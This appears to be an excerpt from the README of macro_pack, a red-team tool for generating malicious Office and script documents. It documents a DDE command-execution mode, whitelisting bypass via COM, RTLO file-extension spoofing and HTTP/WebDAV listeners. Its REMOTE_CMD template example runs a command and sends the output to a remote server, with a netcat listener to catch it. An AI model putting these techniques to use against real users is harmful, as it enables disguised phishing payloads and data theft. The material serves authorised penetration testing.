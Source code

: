 ```
    --dde  Dynamic Data Exchange attack mode. Input will be inserted as a cmd command and executed via DDE
        This option is only compatible with Excel formats.
    --run=FILE_PATH Open document using COM to run macro. Can be useful to bypass whitelisting situations.
        This will trigger AutoOpen/Workbook_Open automatically.
        If no auto start function, use --start-function option to indicate which macro to run.
    --unicode-rtlo=SPOOF_EXTENSION Inject the unicode U+202E char (Right-To-Left Override) to spoof the file extension when view in explorers.
            Ex. To generate an hta file with spoofed jpg extension use options: -G something.hta --unicode-rtlo=jpg
            In this case, windows or linux explorers will show the file named as: somethingath.jpg
    -l, --listen=ROOT_PATH      Open an HTTP server from ROOT_PATH listening on default port 80.
    -w, --webdav-listen=ROOT_PATH Open a WebDAV server on default port 80, giving access to ROOT_PATH.
    --port=PORT Specify the listening port for HTTP and WebDAV servers.


    -h, --help   Displays help and exit
           

```



## Template usage
  
Templates can be called using -t, --template=TEMPLATE_NAME combined with other options.  
Here are all the available templates.

            
### HELLO  
Just print a hello message and awareness about macro.  
Give this template the name or email of the author:  
  -> Example: ```echo "@Author" | macro_pack.exe -t HELLO -G hello.pptm```

### CMD
Execute a command.  
Give this template a command line  
  -> Example (pop calc.exe from and xslt file):  ```echo "calc.exe" | macro_pack.exe -t CMD -G cmd.xsl```
  
### REMOTE_CMD
Execute a command line and send results to remote HTTP server.  
Give this template the server url and the command to run:

  -> Example:  ```echo "http://192.168.0.5:7777" "dir /Q C:" | macro_pack.exe -t REMOTE_CMD -o -G cmd.doc``` 
   
```bash
# Catch result with any webserver or netcat
nc -l -p 7777
```
            